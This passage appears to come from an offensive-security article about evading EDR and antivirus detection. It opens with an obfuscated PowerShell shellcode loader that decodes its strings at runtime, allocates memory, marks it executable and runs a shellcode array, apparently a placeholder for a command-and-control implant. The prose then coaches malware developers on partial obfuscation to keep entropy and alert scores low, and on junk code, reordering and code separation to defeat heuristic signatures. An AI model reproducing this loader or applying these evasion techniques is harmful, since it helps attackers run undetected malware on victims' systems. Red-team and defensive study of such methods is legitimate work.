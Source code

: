 ```powershell
        [Parameter(Position = 1)] [Type] $var_return_type = [Void]
    )
    $vtdef = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName((Get-Robf $Ait1m))), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule((Get-Robf  $ahv3I), $false).DefineType((Get-Robf $Moo5y), (Get-Robf $ooR5o), [System.MulticastDelegate])
    $vtdef.DefineConstructor((Get-Robf $Reib3), [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags((Get-Robf $Reo5o))
    $vtdef.DefineMethod((Get-Robf $ii5Ie), (Get-Robf $Thah8), $var_return_type, $var_parameters).SetImplementationFlags((Get-Robf $Reo5o))
    return $vtdef.CreateType()
}

[Byte[]]$vopcode = @(BADGER_SHELLCODE)

$vbuf = ([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-PA (Get-Robf $xee2N) (Get-Robf $AD0Pi)), (Get-TDef @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))).Invoke([IntPtr]::Zero, $vopcode.Length, 0x3000, 0x04)
[System.Runtime.InteropServices.Marshal]::Copy($vopcode, 0x0, $vbuf, $vopcode.length)
([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-PA (Get-Robf $xee2N) (Get-Robf $ahb3O)), (Get-TDef @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))).Invoke($vbuf, $vopcode.Length, 0x20, [ref](0)) | Out-Null
([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-PA (Get-Robf $xee2N) (Get-Robf $yhe4c)), (Get-TDef @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr].MakeByRefType()) ([UInt32])))).Invoke(0, 0, $vbuf, [IntPtr]0, 0, [ref](0)) | Out-Null
```

You may notice that some cmdlets and functions are kept in their original state… why is that? Depending on your objectives, you may want to create an application that can still confuse reverse engineers after detection but may not look immediately suspicious. If a malware developer were to obfuscate all cmdlets and functions, it would raise the entropy in both interpreted and compiled languages resulting in higher EDR alert scores. It could also lead to an interpreted snippet appearing suspicious in logs if it is seemingly random or visibly heavily obfuscated.

### Code Structure

Code structure can be a bothersome problem when dealing with all aspects of malicious code that are often overlooked and not easily identified. If not adequately addressed in both interpreted and compiled languages, it can lead to signatures or easier reverse engineering from an analyst.

As covered in the aforementioned taxonomy paper, **junk code** and **reordering code** are both widely used as additional measures to add complexity to an interpreted program. Because the program is not compiled, an analyst has much greater insight into the program, and if not artificially inflated with complexity, they can focus on the exact malicious functions of an application.

Separation of related code can impact both interpreted and compiled languages and result in hidden signatures that may be hard to identify. A heuristic signature engine may determine whether a program is malicious based on the surrounding functions or API calls. To circumvent these signatures, an attacker can randomize the occurrence of related code to fool the engine into believing it is a safe call or function.

### File & Compilation Properties
